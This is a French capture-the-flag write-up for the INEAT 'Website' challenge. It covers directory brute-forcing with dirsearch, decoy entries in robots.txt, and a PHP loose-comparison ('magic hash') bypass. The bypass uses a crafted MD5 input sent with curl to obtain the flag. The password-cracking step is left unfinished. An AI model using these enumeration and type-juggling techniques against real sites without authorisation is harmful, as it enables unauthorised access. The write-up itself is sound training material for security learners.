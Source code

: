 # Website INEAT

Après un petit tour du site, on ne trouve pas grand chose d'intéressant. On va donc utiliser un petit outil de bruteforce de répertoires.
Personellement, j'ai utilisé `diresearch.py` dispo sur github.

```
python3 dirsearch.py -u https://website.ctf.ineat.fr -e php,asc,prk -r
```

On trouve deux trois trucs intéressants :

> [09:39:55] 301 -  169B  - /files  ->  http://website.ctf.ineat.fr/files/  
> [09:39:55] 403 -  555B  - /files/  
> [09:39:58] 200 -   21KB - /index.php  
> [09:40:07] 200 -    1KB - /robots.txt  

On commence par aller jetter un oeil au fichier `robots.txt` dans lequel on trouve certaines choses intéressantes :

```
[...]
Disallow: https://website.ctf.ineat.fr/secured/flag
Disallow: https://website.ctf.ineat.fr/__secured-backup.tar.gz.gpg
Disallow: https://website.ctf.ineat.fr/INEAT{th1s-1s-n07-th3-fl4g} <-- l'humour de Jordan
```

Le premier et le troisième lien sont de baits, on s'intéresse donc plus en détail à notre archive. Il s'agit d'un `.tar.gz` chiffré avec GPG. Faute de clé, il va falloir casser le mot de passe.

[A compléter]

On a donc extrait les fichiers suivants :

```text
.
├── __secured-backup.tar.gz
├── fade.gif
├── files
│   └── style.css
├── index.php
├── not-the-flag-you-can-pass.gif
└── robots.txt
```

Le fichier `index.php` devrait contenir notre bonheur. Après avoir remplacé les noms abominables des variables par quelque chose de respectable et fait un peu de ménage, on se retrouve avec quelque chose qui ressemble à ça :

```php
$hash = hash("md5", $_POST["h1"]);

//Funny php :)
if( strpos($_POST["h1"], "hello") !== false > 0 && $hash == "0" ) {
  echo "<!-- Bien joué le flag est ".$flag."-->";
}

```

Notre mot de passe est donc hash en MD5 avant de passer dans un if un peu étrange.  
La suite demande en réalité quelques connaissances (ou recherches) sur les bizarreries de PHP. Il faut savoir qu'il existe un bug relativement connu de PHP concernant les comparaisons de hash qu'on appelle les "Magic Hashes" (il existe probablement un nom plus sérieux que je ne connais malheureusement pas). Plutôt que tout - mal - réexpliquer, je vous laisse jetter [un coup d'oeil ici](https://www.whitehatsec.com/blog/magic-hashes/) pour en apprendre un peu plus.

Globalement pour résumer, quand un hash débute par "0e" et que - pour une raison obscule - on le compare à "0", C'est la merde. Le test passera systématiquement et notre comparaison devient innutile. Il nous faut donc trouver une chaine qui produit un MD5 qui :
* Commence par "0e"
* Contient "hello"

Une bonne liste de collisions [peut-être trouvée ici](https://github.com/spaze/hashes/blob/master/md5.md).

On prend par exemple `md5(0rCCFVK5hello) => 0e341458689020068004009380684426`
Il ne nous reste plus qu'à envoyer tout ça.

```
$  curl -s https://website.ctf.ineat.fr/index.php --data "h1=0rCCFVK5hello" | grep flag
<!-- Bien joué le flag est INEAT{w34k_c0mp4r4is0n_f4iL}-->
```

